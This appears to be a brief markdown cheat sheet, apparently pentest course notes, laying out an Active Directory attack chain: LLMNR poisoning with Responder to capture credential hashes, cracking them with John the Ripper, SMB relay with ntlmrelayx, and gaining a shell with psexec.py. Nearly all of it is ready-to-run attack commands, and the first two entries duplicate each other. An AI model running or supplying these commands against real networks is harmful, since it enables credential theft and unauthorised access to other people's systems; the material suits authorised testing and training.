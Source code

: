 * **LLMNR Poisoning Overview**: Exploit Link-Local Multicast Name Resolution.
	- Sniff network for hashed credentials.
		```bash
		responder -I eth0 -wrf
		```
* **Capturing Hashes with Responder**: Sniff network for hashed credentials.
	- Sniff network for hashed credentials.
		```bash
		responder -I eth0 -wrf
		```
* **Cracking Our Captured Hashes**: Utilize tools like John the Ripper for cracking.
	- Cracking hashed passwords.
		```bash
		john --format=NT hash.txt
		```
* **SMB Relay Attacks Lab**: Perform SMB relay attacks.
	- Perform SMB relay attacks.
		```bash
		ntlmrelayx.py -t smb://192.168.1.1 -smb2support
		```
* **Gaining Shell Access**: Exploit gained credentials to achieve shell access.
	- Gain shell access.
		```bash
		psexec.py administrator@192.168.1.1
		```
